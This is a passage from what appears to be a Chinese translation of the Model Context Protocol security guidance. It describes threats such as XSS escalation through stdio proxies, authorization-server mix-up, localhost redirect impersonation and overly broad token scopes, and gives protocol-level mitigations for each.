- **MUST NOT** 使用 shell 命令（例如 `cmd.exe`、`sh`、PowerShell）来打开 URL
- **SHOULD** 使用平台特定的、非 shell 的 URL 打开机制

**内容安全策略（CSP）**

基于 Web 的 MCP 客户端 **SHOULD** 实现内容安全策略头，以防止 JavaScript 执行：

- 设置 `script-src 'self'` 以阻止内联 JavaScript 的执行
- 使用 `default-src 'self'` 来限制资源加载
- 对于需要内联脚本的动态内容，可考虑使用 `script-src 'nonce-<random>'`

**输入净化**

MCP 客户端 **MUST** 清理并验证从 MCP 服务器接收的所有 URL：

- 实施严格的 URL 解析和验证
- 拒绝包含可能被 shell 解释的特殊字符的 URL
- 考虑使用专用的 URL 净化库
- 记录可疑的授权 URL 以进行安全监控

### 代理场景中的 stdio 传输安全性

`stdio` 传输本身并不存在固有漏洞。然而，在由独立代理服务管理 `stdio` 连接并能够将 MCP 服务器作为子进程启动的代理架构中，它可能成为从基于 Web 的攻击升级为系统完全失陷的关键路径。

#### 攻击描述

**重要**：此攻击向量仅适用于采用代理架构的 MCP 实现，不适用于直接使用 `stdio` 传输的场景。

在基于代理的 MCP 实现中，本地代理服务位于客户端与 MCP 服务器之间，并通过 `stdio` 传输将服务器作为子进程启动。当与客户端漏洞结合时，这种架构会形成一条权限提升路径：

1. 攻击者通过 XSS 或其他客户端代码执行方式获得代码执行能力（例如通过 OAuth URL 漏洞）
2. 恶意行为者利用上述攻击向量，从客户端环境中获取客户端与代理之间建立的 MCP 代理身份验证令牌
3. 恶意行为者向本地 MCP 代理服务发起经过身份验证的请求
4. 代理通过 `stdio` 传输执行任意命令（误以为这些命令是合法的 MCP 服务器命令）
5. 攻击者以用户权限实现远程代码执行

#### 风险

- **权限提升**。基于 Web 的漏洞（XSS）可通过代理命令执行，升级为在主机系统上执行任意代码
- **身份验证绕过**。被窃取的代理身份验证令牌允许未经授权地访问 stdio 进程启动功能
- **系统失陷**。攻击者可以执行 MCP 代理进程有权限运行的任何命令

#### 缓解措施

首要防御措施是防止能够启用此攻击向量的漏洞类别：

- 实施 [OAuth 授权 URL 验证](#oauth-authorization-url-validation) 中所述的缓解措施
- 使用内容安全策略（CSP），防止从不受信任的来源执行 JavaScript
- 在处理来自 MCP 服务器的所有输入之前，对其进行验证和清理

由于 XSS 会从根本上破坏客户端的安全上下文，因此应重点限制其造成的损害：

**stdio 传输限制**

MCP 代理服务**应当**针对 `stdio` 传输实施额外的安全控制：

- 对所启动的进程实施沙箱或容器化
- 限制所启动的 MCP 服务器对文件系统的访问
- 记录所有 `stdio` 传输的使用情况，以进行安全监控
- 对可能具有危险性的命令要求额外授权

**客户端保护措施**

MCP 客户端**应当**实施纵深防御措施：

- 在可能的情况下，将代理通信隔离在单独的安全上下文中
- 对代理进程权限采用最小权限原则
- 对代理服务本身实施进程级沙箱
- 考虑在容器或受限环境中运行代理

### 混淆攻击

#### 攻击描述

一个 MCP 客户端在其生命周期内通常会与许多授权服务器交互。
控制其中一个授权服务器的攻击者，可能会试图让客户端向其发送由另一个诚实授权服务器签发的授权码或令牌（这是一种混淆攻击，见
[RFC9207 第 1 节](https://datatracker.ietf.org/doc/html/rfc9207#section-1)）。

#### 缓解措施

[授权响应验证](/specification/2026-07-28/basic/authorization#authorization-response-validation)
通过将响应绑定到客户端在重定向前记录的授权服务器来缓解此问题，因此授权码
无法在意外的令牌端点兑换。仅靠 PKCE 不能防止这种攻击，因为客户端会将
`code_verifier` 传输到攻击者的令牌端点。资源指示符在攻击者的授权服务器于请求到达诚实授权服务器之前拦截请求时也无济于事。
这种缓解措施依赖于诚实的授权服务器发出 `iss`；对于不发出 `iss` 的诚实服务器，它不提供任何保护。

### localhost 重定向 URI 冒充

原生且本地运行的 MCP 客户端通常使用 `localhost`
重定向 URI。当客户端通过
[客户端 ID 元数据文档](/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)
来标识自己时，元数据文档可以证明某个域名的控制权，但它无法证明
在 `localhost` 重定向 URI 上监听的是哪个本地进程。

#### 攻击描述

攻击者可以通过以下方式冒充任意客户端：

1. 提供合法客户端的元数据 URL 作为其 `client_id`
2. 绑定任意 `localhost` 端口，并将该地址作为
   redirect_uri 提供
3. 当用户批准后，通过重定向接收授权码

服务器会看到合法客户端的元数据文档，
用户也会看到合法客户端的名称，这使得攻击更难被发现。

#### 缓解措施

请参见授权规范中的
[localhost 重定向 URI 风险](/specification/2026-07-28/basic/authorization/security-considerations#localhost-redirect-uri-risks)，
了解授权服务器应采取的对策，包括对仅限 `localhost` 的重定向 URI 显示额外警告，以及在授权过程中清晰显示重定向 URI 的主机名。

### CIMD 信任策略

接受
[客户端 ID 元数据文档](/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)
的授权服务器可以应用基于域名的信任策略来决定接受哪些基于 URL 的
客户端 ID：

- 用于受保护服务器的可信域名白名单
- 接受任何 HTTPS `client_id`（用于开放服务器）
- 对未知域名进行信誉检查
- 基于域名年龄或证书验证的限制
- 显著展示 CIMD 及其他相关客户端主机名，以防止钓鱼

服务器对其访问策略保留完全控制权。有关更多细节，请参见授权规范中的
[信任策略](/specification/2026-07-28/basic/authorization/security-considerations#trust-policies)，以及
客户端 ID 元数据文档规范中的
[第 6.4 节](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.4)
和
[第 6.8 节](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.8)。

### 范围最小化

糟糕的范围设计会增加令牌泄露的影响，提升用户
摩擦，并模糊审计轨迹。

#### 攻击描述

攻击者通过（日志泄露、内存抓取或本地
拦截）获取了一个携带广泛范围（`files:*`, `db:*`,
`admin:*`）的访问令牌，这些范围之所以在一开始就被授予，是因为 MCP 服务器在 `scopes_supported` 中暴露了所有范围，而客户端将它们全部请求了。
该令牌使其能够进行横向数据访问、权限链式提升，以及在不重新征得整个范围同意的情况下难以撤销。

#### 风险

- 爆炸半径扩大：被盗的宽泛令牌可启用无关的
  工具/资源访问
- 撤销摩擦更高：撤销一个最大权限令牌会中断
  所有工作流
- 审计噪声：单一的全能范围会掩盖用户在每次操作中的意图
- 权限链式提升：攻击者可立即调用高风险工具
  而无需进一步的提权提示
- 同意流失：用户会拒绝列出过多范围的对话框
- 范围膨胀盲点：缺乏指标会使过于宽泛的请求
  变得正常化

#### 缓解措施

实现一种渐进式、最小权限的范围模型：

- 最小初始范围集合（例如 `mcp:tools-basic`），只包含
  低风险的发现/读取操作
- 当首次尝试特权操作时，通过有针对性的 `WWW-Authenticate` `scope="..."` 挑战进行逐步提权
- 降级范围容忍：服务器应接受更小范围的令牌；认证服务器 MAY 签发请求范围的子集

服务器指导：

- 发出精确的范围挑战；避免返回完整目录
- 记录提权事件（请求的范围、授予的子集），并附带
  关联 ID

服务器在决定包含哪些范围时具有灵活性：

- **最低方式**：仅包含触发错误的
  特定操作所需的范围。
- **推荐方式**：包含当前操作所需的范围，以及通常
  一起使用的相关范围，以减少升级授权轮次。
- **扩展方式**：包含当前操作所需的范围、相关范围，以及服务器预期客户端在不久的将来可能需要的其他任何范围。

具体选择取决于服务器对用户体验影响和授权摩擦的评估。

客户端指导：

- 仅以基线范围开始（或初始
  `WWW-Authenticate` 指定的范围）
- 缓存最近的失败，避免对被拒绝的范围反复进入提权循环

当初始的 `WWW-Authenticate` 挑战不携带 `scope`
参数时，
[范围选择策略](/specification/2026-07-28/basic/authorization#scope-selection-strategy)
会指导客户端回退为请求 `scopes_supported` 中列出的所有范围。该方法适应了 MCP 客户端通用型的特征，因为它们通常缺乏领域特定知识，无法就单个范围的选择做出明智决定。
请求所有可用范围使授权服务器和最终用户能够在同意过程中确定适当的权限，从而在遵循最小权限原则的同时，尽量减少用户摩擦。

<Note>
  跨操作的范围累积是客户端的责任。客户端在发起重新授权时，**SHOULD** 计算先前请求的范围与新挑战范围的并集，正如 [Step-Up
  Authorization
  Flow](/specification/2026-07-28/basic/authorization#step-up-authorization-flow) 中所描述。
  这样服务器就可以在客户端范围集合方面保持无状态，同时确保客户端不会丢失先前授予的权限。
</Note>

<Note>
  **层级范围**：某些授权服务器定义了范围层级，其中较宽的范围隐含较窄的范围（例如，`admin` 范围包含 `read`）。在累积范围时，客户端的并集可能包含语义上冗余的条目。例如，之前已授予广泛范围的令牌，可能会被一个它已隐含包含的更窄范围挑战。客户端无需按层级去重；授权服务器通常会在签发令牌时对这种冗余进行规范化。至于服务器，在判断令牌是否足以执行某项操作时，必须考虑层级关系，但这不会影响它们在挑战中发出的范围。
</Note>

#### 常见错误

- 在 `scopes_supported` 中公开所有可能的范围
- 使用通配符或全能范围（`*`, `all`, `full-access`）
- 将不相关的权限捆绑在一起以提前规避未来提示
- 在每次挑战中返回整个范围目录
- 在没有版本控制的情况下静默更改范围语义
- 在缺少服务器端授权逻辑的情况下，认为令牌中声称的范围就已足够

正确的最小化能够限制泄露影响、提升审计
清晰度，并减少同意流程的反复折腾。
